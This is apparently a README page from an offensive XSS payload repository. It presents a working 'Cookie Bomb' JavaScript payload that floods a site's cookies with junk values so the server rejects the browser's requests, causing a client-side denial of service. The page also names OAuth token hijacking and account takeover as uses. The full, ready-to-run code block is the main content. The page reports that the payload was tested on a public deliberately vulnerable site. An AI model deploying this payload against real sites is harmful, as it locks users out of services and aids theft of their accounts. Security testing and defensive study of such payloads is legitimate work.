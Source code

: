# [unauthn/authn] Cookie Bomb

<p align="justify">This payload denies access to a website or any part(s) of it, on the client side (i.e. causes a full/partial client-side Denial-of-Service (DoS) condition).</p>

<p align="justify">This is achieved by creating multiple junk cookies on the client side with very long values (each below cookie size limit - around 4KB). Once the web browser issues an HTTP request to the affected website/endpoint, along with these cookies, the web server rejects it and responds with the <code>431 Request Header Fields Too Large</code> HTTP status code. Effectively, this denies the web browser access to the requested resource (i.e. causes a DoS condition; client-side only).</p>

<p align="justify">The DoS condition persists as long as the junk cookies are stored on the client side. Once the web browser's cache is cleared, the affected resource is accessible again from the client side.</p>

Typical use case scenarios:
* OAuth flow hijacking
    * idea: [leverage OAuth login to obtain OAuth token](https://medium.com/@danielbelay/day-7-drag-drop-xss-cookie-bomb-for-oauth-hijacking-a9b828cd9c54)
    * IMPACT:
        * Account Take Over (ATO)
            * CVSS-Confidentiality: MEDIUM/HIGH
            * CVSS-Integrity: MEDIUM/HIGH

## Code

```
let cookCount = 3;     // adjust, if needed
let cookLength = 3500; // adjust, if needed
let cookPath = '/';    // adjust, if needed
let cookDomain = window.document.domain; // adjust, if needed
let cookExpire = 10;   // minutes; adjust, if needed
let cookPostfix = '';
if (location.protocol == 'https:') {
  cookPostfix += ' Secure;';
}
function setCookie(inputKey, inputValue, inputPath, inputDomain, inputExpiry, inputPostfix) {
  let cookExpiry = new Date(+ new Date() + inputExpiry * 60 * 1000);
  document.cookie = inputKey + '=' + inputValue + '; path=' + inputPath + '; domain=' + inputDomain + '; expires=' + cookExpiry.toUTCString() + ';' + inputPostfix;
}
function setCookieBomb(inputCount, inputLength, inputPath, inputDomain, inputExpiry, inputPostfix) {
  let cookValue = 'A'.repeat(inputLength);
  for(let i=0; i<inputCount; i++) {
    setCookie('cookie' + i, cookValue, inputPath, inputDomain, inputExpiry, inputPostfix);
  }  
}
setCookieBomb(cookCount, cookLength, cookPath, cookDomain, cookExpire, cookPostfix);
```

## Test Environment

### Web Browsers (20250812)
* [x] Mozilla Firefox 141.0.3 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 139.0.3405.86 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com

## Screenshot

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieBomb/screenshots/cookieBomb_-_endpoint_DoS_-_1-1.png">
      <img src="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieBomb/screenshots/cookieBomb_-_endpoint_DoS_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/ae8f7205-a757-401f-8240-7b9b1002c775

